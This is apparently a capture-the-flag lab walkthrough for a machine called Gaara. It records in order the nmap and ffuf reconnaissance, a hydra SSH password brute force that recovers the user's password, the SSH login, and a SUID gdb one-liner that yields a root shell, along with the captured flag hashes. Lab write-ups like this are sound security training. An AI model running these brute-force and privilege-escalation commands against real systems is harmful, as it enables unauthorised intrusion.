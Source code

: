 ```yaml
---
custom_edit_url: null
---
```


## Reconnaissance

### Nmap scan

Let's perform an `nmap` scan to find the open ports and the services running on the open ports.

```
$ nmap -T5 -Pn -A -p- 192.168.205.142
Starting Nmap 7.92 ( https://nmap.org ) at 2024-05-02 13:54 IST
Warning: 192.168.205.142 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.205.142
Host is up (0.073s latency).
Not shown: 62577 closed tcp ports (conn-refused), 2956 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:a3:6f:64:03:33:1e:76:f8:e4:98:fe:be:e9:8e:58 (RSA)
|   256 6c:0e:b5:00:e7:42:44:48:65:ef:fe:d7:7c:e6:64:d5 (ECDSA)
|_  256 b7:51:f2:f9:85:57:66:a8:65:54:2e:05:f9:40:d2:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Gaara
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 393.91 seconds
```

There are two open ports:

| Port | Service |
| :-: | :-: |
| 22   | ssh     |
| 80   | http    |

### Web enumeration

Let's visit the web server through our browser.

![1](https://github.com/Kunull/Write-ups/assets/110326359/54c15681-c889-4f61-baac-2cb77914a936)

Nothing useful, just a picture of the anime character [Gaara](https://en.wikipedia.org/wiki/Gaara).

### Directory enumeration

We can use `ffuf` to brute force the web directories on the web server.

```
$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.205.142:80/FUZZ | grep "Status: 200"
________________________________________________

Cryoserver              [Status: 200, Size: 327, Words: 1, Lines: 303, Duration: 75ms]
:: Progress: [220560/220560] :: Job [1/1] :: 546 req/sec :: Duration: [0:10:12] :: Errors: 0 ::
```

If we visit the `/Cryoserver` page, we can find the following information.

![4](https://github.com/Kunull/Write-ups/assets/110326359/f6d40651-cb2d-498d-bc72-f2e0edda2ed7)

So, there are three other directories.

However, all of these include some story regarding the [Gaara](https://en.wikipedia.org/wiki/Gaara) character and serve asrabit holes.


## Exploitation

### Brute forcing SSH password

Now that we know the machine is based on [Gaara](https://en.wikipedia.org/wiki/Gaara), we can assume that there must be a `gaara` user.

Let's brute force the passwords for this `gaara` user.

```
$ hydra -l gaara -P /usr/share/wordlists/rockyou.txt ssh://192.168.205.142
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-02 14:08:26
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.205.142:22/
[STATUS] 115.00 tries/min, 115 tries in 00:01h, 14344286 to do in 2078:53h, 14 active
[22][ssh] host: 192.168.205.142   login: gaara   password: iloveyou2
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-02 14:10:57
```

| Username | Password  |
| :-: | :-: |
| gaara    | iloveyou2 |

### SSH login

```
$ ssh gaara@192.168.205.142
The authenticity of host '192.168.205.142 (192.168.205.142)' can't be established.
ED25519 key fingerprint is SHA256:XpX1VX2RtX8OaktJHdq89ZkpLlYvr88cebZ0tPZMI0I.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.205.142' (ED25519) to the list of known hosts.
gaara@192.168.205.142's password: 
Linux Gaara 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
gaara@Gaara:~$ 
```


## Post Exploitation
### local.txt

Let's `cat` the `local.txt` flag.

```
gaara@Gaara:~$ cat local.txt
c728c520ab0c97b7ea9820a1b73a0254
```

### Privilege Escalation

#### SetUID binaries

We can use the `find` command to search for files on the system where the `setuid` bit is set.

```
gaara@Gaara:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/gdb
/usr/bin/sudo
/usr/bin/gimp-2.10
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/umount
```

We can now use on of these files to escalate our privilege.

Let's go to [GTFOBins](https://gtfobins.github.io/gtfobins/gdb/#suid) to search for an exploit for the `gdb` utility. 

![3](https://github.com/user-attachments/assets/1e696a96-6647-4730-8162-bbf32d570d32)

Since we want a Bash shell, we have to modify the exploit slightly.

```
gdb -nx -ex 'python import os; os.execl("/bin/bash", "sh", "-p")' -ex quit
```

```
gaara@Gaara:~$ gdb -nx -ex 'python import os; os.execl("/bin/bash", "sh", "-p")' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
sh-5.0# whoami
root
```

### proof.txt

We can now `cat` the `proof.txt` flag.

```
sh-5.0# cat /root/proof.txt
2c39a99c3217a56762321da6bf9860b3
```
